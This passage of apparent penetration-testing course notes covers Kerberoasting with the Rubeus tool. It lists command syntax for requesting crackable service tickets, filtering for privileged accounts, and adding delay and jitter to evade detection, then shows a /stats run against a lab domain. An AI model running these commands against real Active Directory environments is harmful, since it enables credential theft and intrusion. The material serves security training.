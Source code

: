 ```powershell-session
        Rubeus.exe kerberoast </spn:"blah/blah" | /spns:C:\temp\spns.txt> </ticket:BASE64 | /ticket:FILE.KIRBI> [/nowrap]

    Perform Kerberoasting with an existing TGT using an enterprise principal:
        Rubeus.exe kerberoast </spn:user@domain.com | /spns:user1@domain.com,user2@domain.com> /enterprise </ticket:BASE64 | /ticket:FILE.KIRBI> [/nowrap]

    Perform Kerberoasting with an existing TGT and automatically retry with the enterprise principal if any fail:
        Rubeus.exe kerberoast </ticket:BASE64 | /ticket:FILE.KIRBI> /autoenterprise [/ldaps] [/nowrap]

    Perform Kerberoasting using the tgtdeleg ticket to request service tickets - requests RC4 for AES accounts:
        Rubeus.exe kerberoast /usetgtdeleg [/ldaps] [/nowrap]

    Perform "opsec" Kerberoasting, using tgtdeleg, and filtering out AES-enabled accounts:
        Rubeus.exe kerberoast /rc4opsec [/ldaps] [/nowrap]

    List statistics about found Kerberoastable accounts without actually sending ticket requests:
        Rubeus.exe kerberoast /stats [/ldaps] [/nowrap]

    Perform Kerberoasting, requesting tickets only for accounts with an admin count of 1 (custom LDAP filter):
        Rubeus.exe kerberoast /ldapfilter:'admincount=1' [/ldaps] [/nowrap]

    Perform Kerberoasting, requesting tickets only for accounts whose password was last set between 01-31-2005 and 03-29-2010, returning up to 5 service tickets:
        Rubeus.exe kerberoast /pwdsetafter:01-31-2005 /pwdsetbefore:03-29-2010 /resultlimit:5 [/ldaps] [/nowrap]

    Perform Kerberoasting, with a delay of 5000 milliseconds and a jitter of 30%:
        Rubeus.exe kerberoast /delay:5000 /jitter:30 [/ldaps] [/nowrap]

    Perform AES Kerberoasting:
        Rubeus.exe kerberoast /aes [/ldaps] [/nowrap]
```

#### Other Rubeus options
- performing kerberoasting and outputting hashes to a file
- Using alternate credentials
- performing kerberoasting combined with a pass-the-ticket attack
- Requesting tickets for accounts passwords set between a specific date range
- Placing a limit on the number of tickets requested
- Performing AES Kerberoasting

#### Using the /stats Flag

  Using the /stats Flag

```powershell-session
PS C:\htb> .\Rubeus.exe kerberoast /stats
```
```powershell-session
[*] Action: Kerberoasting

[*] Listing statistics about target users, no ticket requests being performed.
[*] Target Domain          : INLANEFREIGHT.LOCAL
[*] Searching path 'LDAP://ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL' for '(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 9


```